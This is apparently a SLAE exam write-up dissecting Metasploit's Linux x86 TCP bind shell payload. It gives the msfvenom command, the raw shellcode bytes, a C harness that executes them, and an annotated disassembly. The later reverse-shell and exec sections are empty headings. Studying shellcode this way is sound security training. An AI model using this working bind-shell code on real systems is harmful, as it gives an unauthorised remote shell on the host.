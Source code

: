 ```Shellcode No.1 - TCP Bind Shell```

At first, we will talk about linux/x86/shell_bind_tcp, which is very simmilar to the first assignment in SLAE Exam

------------------------------------------------------------------------------------------------------------------------
```bash
jheba@AFI-JH SLAE % msfvenom -p linux/x86/shell_bind_tcp LPORT=1234 -f c
/usr/local/bin/msfvenom: line 14: cd: /Users/jheba/Desktop/OSCE: No such file or directory
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 78 bytes
Final size of c file: 354 bytes
unsigned char buf[] =
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x04\xd2\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";
```
------------------------------------------------------------------------------------------------------------------------
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x04\xd2\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";


main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
------------------------------------------------------------------------------------------------------------------------
```bash
slae@ubuntu:~/exam-SLAE/Assignment-5$ ./shellcode 
Shellcode Length:  20
```
------------------------------------------------------------------------------------------------------------------------
```bash
slae@ubuntu:~/exam-SLAE/Assignment-5$ echo -ne "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x5b\x5e\x52\x68\x02\x00\x04\xd2\x6a\x10\x51\x50\x89\xe1\x6a\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" | ndisasm -u -
```
```nasm
00000000  31DB              xor ebx,ebx					; clearing the EBX register
00000002  F7E3              mul ebx 					; clearing the EAX and EDX registers
00000004  53                push ebx 					; pushing 0 on the stack as a first argument of socketcall syscall (IPPROTO_IP = 0 (null))
00000005  43                inc ebx 					; incrementing EBX by one for sys_socket call
00000006  53                push ebx 					; pushing second argument on the stack (SOCK_STREAM = 1)
00000007  6A02              push byte +0x2 				; pushing value 2 on the stack (third argument of socketcall syscall - AF_INET = 2 (PF_INET))
00000009  89E1              mov ecx,esp 				; directing the stack pointer to sys_socket() function arguments
0000000B  B066              mov al,0x66 				; call to socketcall syscall 
0000000D  CD80              int 0x80					; syscall execution (after this, sockfd will be saved in EAX as return value)
0000000F  5B                pop ebx 					; popping value 2 into the ebx (sys_bind call)
00000010  5E                pop esi
00000011  52                push edx 					; pushing 0 (null) which is necessary for that call
00000012  68020004D2        push dword 0xd2040002		; pushing d204 -> in reverse 04d2(hex) = 1234(dec) - our LPORT, and 0002(hex) = 2(dec) which is the third argument (it is like `push word 2` - AF_INET = 2)
00000017  6A10              push byte +0x10 			; pushing value 16, which is the socklen_t addrlen (size) = 16
00000019  51                push ecx 					; const struct sockaddr *addr - stack pointer with struct arguments	
0000001A  50                push eax 					; pushing our sockfd pointer
0000001B  89E1              mov ecx,esp 				; directing the stack pointer to sys_bind() function arguments
0000001D  6A66              push byte +0x66 			; pushing call to socketcall syscall on top of the stack
0000001F  58                pop eax 					; popping above value into EAX
00000020  CD80              int 0x80 					; syscall execution
00000022  894104            mov [ecx+0x4],eax 			; ECX points to the stack, so ECX+4 will points too -> pushing EAX on the stack
00000025  B304              mov bl,0x4 					; moving 4 to EBX (sys_listen call)
00000027  B066              mov al,0x66 				; call to socketcall syscall 
00000029  CD80              int 0x80 					; syscall execution
0000002B  43                inc ebx 					; incrementing EBX (sys_accept call)
0000002C  B066              mov al,0x66 				; call to socketcall syscall
0000002E  CD80              int 0x80 					; syscall execution (ECX already points to top of the stack (arguments))
00000030  93                xchg eax,ebx 				; 
00000031  59                pop ecx
00000032  6A3F              push byte +0x3f
00000034  58                pop eax
00000035  CD80              int 0x80
00000037  49                dec ecx
00000038  79F8              jns 0x32
0000003A  682F2F7368        push dword 0x68732f2f
0000003F  682F62696E        push dword 0x6e69622f
00000044  89E3              mov ebx,esp
00000046  50                push eax
00000047  53                push ebx
00000048  89E1              mov ecx,esp
0000004A  B00B              mov al,0xb
0000004C  CD80              int 0x80
```
```bash
slae@ubuntu:~/exam-SLAE/Assignment-5$ cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep 102
#define __NR_socketcall 102
```
```bash
slae@ubuntu:~/exam-SLAE/Assignment-5$ cat /usr/include/linux/net.h | grep sys_socket
#define SYS_SOCKET	1		/* sys_socket(2)		*/
```

# Shellcode No.2 - TCP Reverse Shell







# Shellcode No.3 - Exec Command
